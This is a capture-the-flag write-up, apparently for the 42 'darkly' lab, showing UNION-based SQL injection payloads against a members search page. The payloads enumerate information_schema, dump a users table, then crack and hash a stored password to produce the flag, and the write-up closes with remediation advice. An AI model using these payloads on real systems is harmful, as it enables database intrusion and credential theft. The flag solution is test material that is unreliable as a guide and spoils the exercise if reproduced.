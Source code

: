 # SQL Injection (MEMBERS)

On [Members page](http://192.168.56.101/index.php?page=member) a form allows to search information on a given member using its ID number.
<details>
<summary>IDs 0 to 5</summary>

![id0to5](https://user-images.githubusercontent.com/22397481/207928622-834fdf21-ae87-47c8-bca3-e282f4c82a5c.gif)
</details>

Let's see if we can attack this page with SQL Injection technique, by putting a `'`, a quote character. (if the error message like below prints, it means the environment is vulnerable for SQL Injection)

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1
```

with this error message we are getting, we could try using the attack queries to see if we can get the informations, with understanding of following information:

- [Understanding MariaDB Architecture](https://mariadb.com/kb/en/understanding-mariadb-architecture/#:~:text=MariaDB%20does%20not%20support%20the,table%20they%20have%20permissions%20for.)
- [SQL UNION Operator](https://www.w3schools.com/sql/sql_union.asp)

So by it means, in `information_schema`, all the information of the databases can be found, and by quering to it directly, it will be possible to get information of databases, with using `UNION` operator, there is a chance a query can retrieve data from `information_schema`. There are [lists of tables](https://dev.mysql.com/doc/refman/8.0/en/general-information-schema-tables.html), and we are going to use couple of them


Following query will bring the information of all the tables created on the database
```
1 AND 1=1 UNION SELECT 1, table_name FROM information_schema.tables
```
and with the list of [General Table](https://dev.mysql.com/doc/refman/8.0/en/information-schema-general-table-reference.html), we can find the table `users` is listed on the result.

From running this query, we can grab all the column names from each table, as well.

```
1 AND 1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```
by searching the `users`, following columns are exist on the table `users`

```
user_id, first_name, last_name, town, country, planet, Commentaire, countersign
```

By tring all the columns, with using columns `Commentaire`, and `Countersign`, the following message can be reterived, with this query

```
1 AND 1=1 UNION SELECT Commentaire, countersign FROM users
```
![1 AND 1=1 UNION SELECT Commentaire, countersign FROM users](https://user-images.githubusercontent.com/22397481/209451385-c97a6a2b-0a89-440d-810d-5262b6d63877.jpeg)

as it shows, let's decrypt the password
```
ID: 1 AND 1=1 UNION SELECT Commentaire, countersign FROM users
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```
Following the instruction, convert the string to lowercase and compute SHA256 digests.
```shell
┌──$ [~/42/2022/darkly]
└─>  echo -n FortyTwo | tr -s A-Z a-z | openssl dgst -sha256
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```


## Remediation
A SQL Injection is an attack of injectin query through the input data from the client to the application. It can cause modify, removal, or admin operation to the databases. This can happen when unintended data enters a program from an untrusted source, or the data is used to dynamically construct a SQL query.

In order to prevent,

- Use of Prepare Statements (with Parameterized Queries)
- Use of properly construed stored Procedures
- Allow-list input valiation
- Escaping All User Supplied Input

See More:

- [SQL Injection | OWASP Foundation](https://owasp.org/www-community/attacks/SQL_Injection)
- [SQL Injection Prevention - OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
